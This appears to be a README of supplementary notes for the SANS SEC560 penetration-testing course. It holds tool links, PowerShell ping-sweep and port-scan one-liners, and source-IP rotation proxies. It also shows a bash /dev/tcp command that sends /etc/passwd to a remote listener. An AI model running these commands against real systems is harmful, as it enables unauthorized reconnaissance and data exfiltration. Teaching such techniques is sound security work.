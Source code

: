# 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

PowerShell port scan example: 70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Bash /dev/tcp fun

Connect to a port: echo "" > /dev/tcp/142.250.138.139/443

Send a file: cat /path/to/file > /dev/tcp/ip/port

- ex: cat /etc/passwd > /dev/tcp/10.10.10.10/4444

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

lolcat (lol): https://github.com/busyloop/lolcat
- Awesome lolcat from Jeff McJunkin: while true; do fortune | cowsay -f $(find /usr/share/cowsay/cows/ -type f | sort -R | head -n1) |
lolcat -a -s 40; sleep 2; done

Can use telnet, too (although it is not a cat): telnet ip port


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year:

http://weakpasswords.net/


## Day 3

## Day 4

## Day5
